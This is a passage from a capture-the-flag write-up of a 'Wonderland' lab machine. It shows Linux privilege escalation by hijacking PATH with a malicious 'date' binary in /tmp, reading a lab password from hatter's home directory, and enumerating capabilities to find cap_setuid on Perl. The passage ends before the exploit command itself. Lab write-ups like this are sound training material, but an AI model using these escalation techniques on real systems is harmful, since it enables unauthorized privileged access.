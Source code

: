 The ```PATH``` variable will now start with ```/tmp```. This means that ```/tmp``` will be the first place the kernel searches when fetching binaries to execute. Since our malicious ```date``` file is located in ```/tmp```, this will be executed instead of the correct ```date```, located in ```/bin```.  Once this is done, ```teaParty``` is executed.

```
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
hatter@wonderland:/home/rabbit$
```

This has worked! We are now the ```hatter``` user.

### Capabilities on Perl

We will now investigate ```hatter```’s home directory.

```
hatter@wonderland:/home/rabbit$ cd ../hatter
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```

It appears that we have found a password. When we use the command ```su hatter``` and enter this password, it is accepted. We can therefore conclude that this is the password of the ```hatter``` user. I tried to find out what ```hatter``` can run with ```sudo```, but the output was ```Sorry, user hatter may not run sudo on wonderland.```.

To escalate our privileges further, we search for [capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities). Capabilities break up root privileges into smaller chunks, so that smaller subsets of processes can be accessed. This ensures users only get the privileges they truly need, and the risk of exploitation is reduced. But this risk is never zero…

For more on exploiting capabilities for privilege escalation, [this article](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) gives an in-depth guide.

We search for capabilities available to the ```hatter``` user.

##### Command:
> getcap -r / 2>/dev/null

```
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

It appears that the ```hatter``` user has the capability ```cap_setuid``` on Perl. From the Linux Manual page:
>##### CAP_SETUID
    * Make arbitrary manipulations of process UIDs;
    * forge UID when passing socket credentials via UNIX domain sockets;
    * write a user ID mapping in a user namespace;
